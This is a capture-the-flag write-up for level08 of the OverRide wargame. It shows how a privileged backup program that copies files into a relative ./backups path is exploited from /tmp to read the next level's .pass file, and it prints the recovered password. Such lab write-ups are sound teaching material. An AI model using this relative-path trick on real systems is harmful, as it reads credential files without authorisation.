 # level08

The programs takes a file as parameter.

By looking at the code, we can see that it copy the file passed in params to `./backups/argv[1]`. If the file already exists, an error is thrown.

The goal here is to open the `.pass` of the level09, but obviously we haven't the rights to write in the current directory:

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
```

We move in `/tmp` and create the complete path to avoid any errors:

```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups//home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
